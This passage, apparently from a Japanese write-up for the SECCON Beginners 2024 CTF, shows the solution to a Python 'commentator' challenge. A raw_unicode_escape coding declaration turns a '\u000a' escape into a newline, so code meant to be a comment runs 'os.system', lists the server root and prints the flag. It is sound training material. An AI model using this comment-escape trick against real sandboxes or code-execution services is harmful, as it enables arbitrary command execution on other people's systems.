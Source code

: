 ![](./CTF4b%202024.1718512665402.png)

PCREにおいて`\1`などがグループマッチ箇所を意味することを知らなかった。

### misc: commentator

[Pythonのコーデック指定によるコメント行の実行](https://ctftime.org/writeup/28814)なるものを見つけたので、これを試したらフラグが得られた。

```
▶ nc commentator.beginners.seccon.games 4444
                                          _        _                  __
  ___ ___  _ __ ___  _ __ ___   ___ _ __ | |_ __ _| |_ ___  _ __   _  \ \
 / __/ _ \| '_ ` _ \| '_ ` _ \ / _ \ '_ \| __/ _` | __/ _ \| '__| (_)  | |
| (_| (_) | | | | | | | | | | |  __/ | | | || (_| | || (_) | |     _   | |
 \___\___/|_| |_| |_|_| |_| |_|\___|_| |_|\__\__,_|\__\___/|_|    (_)  | |
                                                                      /_/
---------------------------------------------------------------------------
Enter your Python code (ends with __EOF__)
>>> # coding: raw_unicode_escape
>>> \u000aimport os
>>> \u000aos.system("ls -laF /")
>>> __EOF__
...
-rw-r--r--   1 nobody nogroup   50 Jun 14 11:03 flag-437541b5d9499db505f005890ed38f0e.txt
...
thx :)

▶ nc commentator.beginners.seccon.games 4444
                                          _        _                  __
  ___ ___  _ __ ___  _ __ ___   ___ _ __ | |_ __ _| |_ ___  _ __   _  \ \
 / __/ _ \| '_ ` _ \| '_ ` _ \ / _ \ '_ \| __/ _` | __/ _ \| '__| (_)  | |
| (_| (_) | | | | | | | | | | |  __/ | | | || (_| | || (_) | |     _   | |
 \___\___/|_| |_| |_|_| |_| |_|\___|_| |_|\__\__,_|\__\___/|_|    (_)  | |
                                                                      /_/
---------------------------------------------------------------------------
Enter your Python code (ends with __EOF__)
>>> # coding: raw_unicode_escape
>>> \u000aimport os
>>> \u000aos.system("cat /flag-437541b5d9499db505f005890ed38f0e.txt")
>>> __EOF__
ctf4b{c4r3l355_c0mm3n75_c4n_16n173_0nl1n3_0u7r463}thx :)
```

### web: wooorker
